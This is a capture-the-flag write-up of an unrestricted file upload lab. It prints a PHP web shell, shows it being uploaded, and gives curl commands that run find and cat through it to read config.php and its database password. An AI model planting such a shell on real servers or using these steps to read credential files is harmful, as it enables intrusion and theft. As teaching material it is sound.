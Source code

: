 
---

# Unrestricted File Upload Challenge writeup

## Introduction
In this writeup I will guide you through on identifying the vulnerability and uploading a malicious file to obtain access to server files

## Objective
This lab contains a Unrestricted File Upload vulnerability. The application has an image upload function, but the uploaded file content or type is not checked on the server.

To complete the lab, upload a malicious PHP script and read the "config.php" file.

What is the database password in the config.php file?

## Example website
```
https://correct-phoenix.europe1.hackviser.space/ 
```
The link will change/be different for you

## Tools used

- **Web Browser/Curl:** 
- **PHP Script:** 
- **Command Line Tools:**

---

## Steps to Exploit

### Step 1: Crafting the Malicious File

Firstly when accessing the site playing around with the website then seeing the page source it had no method in validating the file and file extension (ex: png, jpg, & ect)

With that we create a malicious file to upload onto the website

```php
<?php
  echo shell_exec($_GET['cmd']);
?>
```
The script itself allows us to use the file to execute cmd/terminal commands through accessing the file through the uploaded link 

I saved this as `photo.php.` to exploit the improper validation of file extensions

---

### Step 2: Uploading the Malicious File

Using the website's upload feature I uploaded `photo.php` The application processed the file without error showing us success in "bypassing the file validation system"

If you didnt notice already the link extension to the uploaded files is `/uploads/`

### Step 3: Executing the Malicious File

With the script uploaded I accessed via link

```plaintext
https://correct-phoenix.europe1.hackviser.space/uploads/photo.php
```

To test I used the command command `https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=ls` to list the directory files to view other files previously uploaded or not accessible by a normal user

It worked meaning we can execute terminal commands onto the server

---

### Step 4: Locating the config.php File

To locate the `config.php` file I used the `find` command that scans the entire server for the file name

```bash
find / -type f -name "config.php" 2>/dev/null
```

```bash
curl 'https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=find%20/%20-type%20f%20-name%20%22config.php%22%202%3E/dev/null'
```

This command located the file at `/var/www/html/config.php`

---

### Step 5: Reading the config.php File

Finally we can read the contents of the target file `config.php` using:

```bash
curl 'https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=cat%20/var/www/html/config.php'
```

This gives us the output of the php file containing the database information stored within the file

```php
‹?php
tryt
$host = 'localhost';
$db_name = 'hv_database' ;
$charset = 'utf8';
$username = 'root';
$password = '8jv77mvXwR7LVU5v ' ;
$db = new PDO ("mysql:host=$host;dbname=$db_name; charset=$charset", Susern
ame, $password);
} catch (PDOException $e){
}
?>
```

---

# Flag

```
8jv77mvXwR7LVU5v
```

---

## Recommendations to prevent this happening

- **Validate file types both by extension and MIME types**
- **Implement file content checking to prevent malicious uploads**
- **Restrict executable permissions in upload directories**

---

